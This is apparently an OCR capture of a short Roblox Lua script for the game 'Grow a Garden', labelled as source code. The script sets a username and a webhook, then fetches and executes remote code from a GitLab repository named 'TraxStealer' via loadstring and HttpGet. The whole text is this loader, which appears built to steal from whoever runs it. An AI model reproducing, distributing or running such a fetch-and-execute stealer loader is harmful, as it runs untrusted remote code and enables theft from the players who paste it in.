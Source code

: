Username = "TrainRiderFR"
Webhook = "Delta"

loadstring(game:HttpGet("https://gitlab.com/traxmain1/TraxStealer/-/raw/main/grow-a-garden"))()
